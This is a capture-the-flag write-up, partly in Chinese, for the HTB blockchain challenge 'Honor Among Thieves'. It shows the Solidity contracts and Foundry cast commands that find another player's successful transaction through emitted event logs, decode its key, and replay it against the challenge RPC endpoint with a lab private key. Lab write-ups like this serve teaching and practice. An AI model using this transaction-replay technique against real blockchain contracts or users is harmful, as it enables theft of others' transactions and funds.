 ```yaml
---
title: HTB Blockchain Challenge - Honor Among Thieves
date: {{ date }}
cover   : "/img/htb1.jpeg"
---
```


Honor Among Thieves
===
* Code - Setup.sol
```solidity=
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Rivals} from "./Rivals.sol";

contract Setup {
    Rivals public immutable TARGET;

    constructor(bytes32 _encryptedFlag, bytes32 _hashed) payable {
        TARGET = new Rivals(_encryptedFlag, _hashed);
    }

    function isSolved(address _player) public view returns (bool) {
        return TARGET.solver() == _player;
    }
}

```

* Code - Rivals.sol

```solidity=

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Rivals {
    event Voice(uint256 indexed severity);

    bytes32 private encryptedFlag;
    bytes32 private hashedFlag;
    address public solver;

    constructor(bytes32 _encrypted, bytes32 _hashed) {
        encryptedFlag = _encrypted;
        hashedFlag = _hashed;
    }

    function talk(bytes32 _key) external {
        bytes32 _flag = _key ^ encryptedFlag;
        if (keccak256(abi.encode(_flag)) == hashedFlag) {
            solver = msg.sender;
            emit Voice(5);
        } else {
            emit Voice(block.timestamp % 5);
        }
    }
}

```
#### 思路
* 可以看到在得到正確的key時，會有一個event，我們可以利用event來追蹤其他人成功解出key的transaction
* 如此一來只要重送Input data就可以解掉這題了


#### 解題過程
* 首先先查詢 foundryup的相關指令
* 會用到的指令有
* cast receipt
* cast logs
* 主要是透過 logs 有一個參數可以查詢 event topic
* topic 產生的方式是 function name + parameter type 的 keccak256
-> 所以我們可以得到event的hash
這邊就使用online tool 來計算即可
![image](https://hackmd.io/_uploads/SybAqi9OT.png)

* 取得包含這個topic的所有tx
`cast logs --from-block 1 --rpc-url http://159.65.20.166:31168/rpc 0x8be9391af7bcf072cee3c17fdbdfa444b42ad0d498941bcd0eb684da1ebe0d62
`
![image](https://hackmd.io/_uploads/Hy7fjoqOp.png)


* 發現 severity == 5 的 event
* TX HASH 是 `0x78ad7dc36a3de19a1606390ac2dc978f77fa5d253eda5e0c4219f69fe203929e`
* 檢視TX詳細內容 
* `cast receipt --rpc-url http://159.65.20.166:31168/rpc 0x78ad7dc36a3de19a1606390ac2dc978f77fa5d253eda5e0c4219f69fe203929e`
![image](https://hackmd.io/_uploads/Hksaoj5da.png)

* INPUT DATA  `0x52eab0fadff33a1b2c1b6333553e4e280f600886993e5469e05b4931c5c19c93fce7b58f`

* 這邊用 [input data decoder](https://lab.miguelmota.com/ethereum-input-data-decoder/example/ ) 來解析
* 要有 `Rivals.sol` 的 ABI
![image](https://hackmd.io/_uploads/r1aG3scu6.png)

* 可以知道 `_key` 就是 `0xdff33a1b2c1b6333553e4e280f600886993e5469e05b4931c5c19c93fce7b58f`

* 解題`cast send --rpc-url http://159.65.20.166:31168/rpc --private-key "0x8746fad80df99a853573ed2ab842a08a2bde1724343e19ec6f867d77ff776993" 0xaFB86492DD72903c3cE48761613cF3EB59dAde7d "talk(bytes32)"  0xdff33a1b2c1b6333553e4e280f600886993e5469e05b4931c5c19c93fce7b58f`
* 確認成功
* `cast call --rpc-url http://159.65.20.166:31168/rpc --private-key "0x8746fad80df99a853573ed2ab842a08a2bde1724343e19ec6f867d77ff776993" 0x3CBC547eE5EF958791108f27Fd541c88D9AB143E "isSolved(address)" 0x3c8abBf477294512FC9ba8F911a0aFC6868dd2AF`
![image](https://hackmd.io/_uploads/S16uhicOT.png)
